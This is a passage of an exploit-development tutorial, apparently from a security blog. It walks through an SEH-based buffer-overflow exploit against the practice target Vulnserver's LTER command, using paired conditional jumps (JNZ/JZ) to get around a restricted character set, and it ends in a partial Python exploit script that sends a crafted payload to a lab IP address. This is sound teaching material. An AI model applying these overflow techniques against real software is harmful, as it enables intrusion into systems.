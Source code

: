And check if this time we are able to reach the `POP/POP/RET` sequence:

<div class="imgblock">

![Return success](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331205/blog/vulnserver-lter-seh/retsuccess1_c8o1pb.gif)

</div>

Yes\! Things start to get better…​ or not?

## Finding useful instructions

After the `POP/POP/RET` on `6250172B` sequence is executed, we landed at
the [nSEH parameter](../vulnserver-gmon/), and we need to get past over
the injected SEH handler address. What we did before with the `GMON`
command was to perform a short jump. That jump had the bytecode
`\xeb\x08`. However, this time we are limited by instructions on the
`\x00 - \x7f` range, so the short jump opcode (`\xeb`) is not an option.
We need to find an instruction that can perform a short jump and has an
opcode in our allowed character set. That instruction must also fit in 4
bytes or less.

Luckily for us, [conditional
jumps](http://unixwiz.net/techtips/x86-jumps.html) are the answer:

1. They are 2 bytes long.

2. Most of them have opcodes on our allowed range.

However, we need to choose the appropriate condition that actually
performs the jump. For example, if we choose the `JNZ` conditional, we
must make sure that the condition is always true in order to perform the
desired jump.

Or, we can use some discrete mathematics here and take advantage of
predicated logic and use two opposite 2-bytes conditional jumps. The
logic is simple:

1. Having `Bool(ZF) = unknown`

2. As we don’t know the current value of `ZF`, predicated logic says
    that `Bool(ZF) || ~Bool(ZF) == true`

So, instead of injecting a simple `JNZ SHORT +0x8`, we will inject two
conditional jumps:

``` x86asm
\x75\x08      ; JNZ SHORT +0x10: Will jump if ZF is 1
\x74\x06      ; JZ SHORT +0x8: If the previous jump didn't happen (ZF is 0), jump!
```

This will ensure that no matter the value of `ZF` on the processor, any
of those instructions will be true, and the jump will be performed.
Let’s update our exploit with that:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * (3554 - 4) +
    # JNZ SHORT +0x10: Will jump if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x8: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
```